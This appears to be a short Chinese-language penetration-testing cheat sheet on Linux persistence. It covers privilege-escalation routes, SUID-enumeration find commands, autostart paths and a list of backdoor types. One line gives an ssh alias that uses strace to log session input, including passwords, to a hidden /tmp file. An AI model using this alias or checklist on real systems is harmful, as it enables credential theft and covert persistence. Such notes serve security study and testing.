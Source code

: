 持久化 - Linux
========================================

权限提升
----------------------------------------
- 内核漏洞利用
- 攻击有root权限的服务
- 利用第三方服务提权
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
    - ``find / -perm +4000 -ls``
    - ``find / -perm -u=s -type f 2>/dev/null``
    - ``find / -user root -perm -4000 -print 2>/dev/null``
    - ``find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null``
- 利用可用的root权限
    - ``sudo -l``
- 利用误配置的 crontab 任务

自启动
----------------------------------------
- /etc/init.d
- /etc/rc.d/rc.local

后门
----------------------------------------
- ssh 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
    - 后门账户
- 常见应用
    - ICMP
    - DNS
- icmp后门
- 后门端口复用
- ``.`` 开头隐藏文件
- rootkit
